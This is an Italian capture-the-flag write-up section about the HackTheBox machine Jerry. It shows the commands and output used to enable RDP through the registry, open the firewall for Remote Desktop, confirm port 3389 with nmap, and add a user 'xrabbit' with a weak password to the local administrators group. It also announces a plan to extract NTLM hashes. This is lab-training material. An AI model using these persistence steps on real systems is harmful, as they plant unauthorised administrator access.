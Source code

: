 # EXTRA

In questa sezione voglio fare un piccolo esercizio ovvero attivare il RDP ed estrarre gli hash NTLM dell account Administrator 

iniziamo abilitando RDP

```shell-session
C:\Users\Administrator\Desktop\flags>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /freg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully
```

con questo settiamo il firewall per consentire l'accesso ad RDP

```shell-session
C:\Users\Administrator\Desktop\flags>C:\Users\Administrator\Desktop\flags>netsh advfirewall firewall set rule group="remote desktop" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=yes

Updated 3 rule(s).
Ok.
```

possiamo verificare che la porta 3389 è aperta con [Nmap](Note/Tool/Nmap.md)

```shell-session
┌──(root㉿kali)-[/home/kali/htb/jerry]
└─# nmap -p 3389 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 12:29 CET
Nmap scan report for 10.10.10.95
Host is up (0.058s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

adesso aggiungiamo un utente con quale collegarci in RDP

```shell-session
C:\Users\Administrator\Desktop\flags>net user /add xrabbit Test123
net user /add xrabbit Test123
The command completed successfully.
```

aggiungiamo il nostro utente al gruppo localgroup aministrators

```shell-session
C:\>net localgroup administrators xrabbit /add
net localgroup administrators xrabbit /add
The command completed successfully.
```
